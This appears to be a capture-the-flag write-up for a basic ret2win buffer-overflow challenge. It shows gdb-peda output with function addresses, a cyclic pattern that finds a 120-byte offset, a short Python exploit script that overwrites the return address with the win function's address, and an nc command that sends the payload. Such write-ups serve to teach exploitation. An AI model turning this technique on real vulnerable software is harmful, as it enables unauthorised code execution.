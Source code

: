### Basic Return Oriented Programming Buffer Overflow

This challenge was a very basic pwn challenge in which what we had to do was find the offset at which the Buffer Overflow occured and then re write the RIP with the Address of the win function. The address of the win function can be found like so : 
```bash
./gdb ./ret2basic
gdb-peda$ info functions
All defined functions:
Non-debugging symbols:
<REDACTED>
0x00000000004011e6  setup
0x0000000000401215  win
0x000000000040130f  vuln
<REDACTED>

```

And to find the buffer overflow we can use GDB as well :
```
gdb-peda$ pattern_create 200 
gdb-peda$ r 
Can you overflow this?: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
# After this do pattern_search and we will get the offset at 120
```
After getting the Offset we can easily write a script to exploit it 
```python
padding  = "\x15\x12\x40\x00\x00\x00\x00\x00"
payload = "a" * 120

print(payload + padding)
```
and then 
```
python exploit.py > input.txt
nc ip port < input.txt
```
